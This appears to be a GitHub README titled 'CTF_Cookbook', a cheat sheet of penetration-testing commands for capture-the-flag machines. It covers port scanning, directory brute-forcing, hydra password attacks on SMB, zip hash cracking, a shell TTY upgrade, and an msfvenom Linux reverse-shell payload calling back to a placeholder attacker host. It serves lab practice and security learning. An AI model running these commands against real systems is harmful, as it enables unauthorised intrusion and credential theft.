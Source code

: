 
# CTF_Cookbook
A collection of tool commands and scripts for capture the flag machines

  # Nmap (Port scanning tool)
      
  Discover common ports and their versions. Output all formats to an nmap folder
      
  ```bash
  nmap -sC -sV -oA nmap/[filename] [box_ip_address]
  ```
  An aggressive detection scan 
      
  ```bash
  nmap -T4 -A -oA nmap/[filename] [box_ip_address]
  ```
  Scan all ports and write results to file in all formats
  
  ```bash
  nmap -p- -oA [FILENAME] [RHOST_IP]
  ```
  
  Scan all ports and then search through XML file results with SearchSploit to find possible exploits
  ```bash
  nmap -p- -sV -oX [FILENAME.xml] [RHOST_IP]; searchsploit --nmap [FILENAME.xml]
  ```

  # Gobuster (Directory scanning tool)
  
  Scan directories on port using list in file directory-list-2.3-medium.txt and output it to file gobuster.log
  
  ```bash
  gobuster -u http://[RHOST_IP]:[PORT] -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o gobuster.log
  ```
  
  Scan multiple directories using a for loop
  ```bash
  for i in admin test dev backup loop; do
  gobuster -u http://[RHOST_IP]:[PORT]/$i -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o gobuster-$i.log
  done
  ```
  # SMBMAP (SMB enumeration tool)
  
  check for any available samba shares on the host
  
  ```bash
  smbmap -H [RHOST_IP]
  ```
  
  # LFTP (Sophisticated file transfer program)
  
  Connect to ftp server as anonymous user and run a command (In this example "ls") upon login
  
  ```bash
  lftp -u anonymous -e "ls" [RHOST_IP]
  ```
  
  # HYDRA (a very fast network logon cracker which support many different services)
  
  scan smb share with a known user against a password list
  
  ```bash
  hydra -l [USERNAME] -P [PASSWORDS.txt] smb://[RHOST_IP]
  ```
  
  # XXD (make a hexdump or do the reverse.)
  
  Reverse hex in a file
  
  ```bash
  cat [HEXFILE.txt] | xxd -r -p > [DECODED_FILE.txt]
  ```
  
  # zip2john (Crack password protected zip files.)
  
  Get hash from zip file and send to an output file for cracking
  
  ```bash
  zip2john [ZIPFILE.zip] > [OUTPUTFILE.zip.hash]
  ```
  Crack zip file hash using wordlist rockyou.txt
  
  ```bash
  john --wordlist=[/usr/share/wordlists/rockyou.txt] [OUTPUTFILE.zip.hash]
  ```
  
  # Base64 (base64 encode/decode data and print to standard output)
  
  Decode base64 contained in a file
  
  ```bash
  base64 -d [FILE_TO_DECODE.txt]
  ```
  # tr (translate or delete characters)
  
  Wipe all whitespace including newlines
  
  ```bash
  cat [FILE.txt] | tr -d " \t\n\r"
  ```

  # Upgrade the Interactive Shell to a Full TTY Shell
  
  ```bash
  python -c 'import pty; pty.spawn("/bin/bash")'
  export TERM=xterm
  Ctrl-z
  stty raw -echo
  fg
  reset
  ```
  
  # MSVENOM (Payload Generator and Encoder)
  
  Create 32-bit reverse shell for Linux 
  
  ```bash
  msfvenom -p linux/x86/shell_reverse_tcp LHOST=[LHOST_IP] LPORT=[LHOST_PORT] -f elf -o rev
  ```
  
  # Start SimpleHTTPServer with Python
  
  ```python
  python -m SimpleHTTPServer 80
  ```
  
  
  
  
  
  
  
  
  
  
  
  
  
  
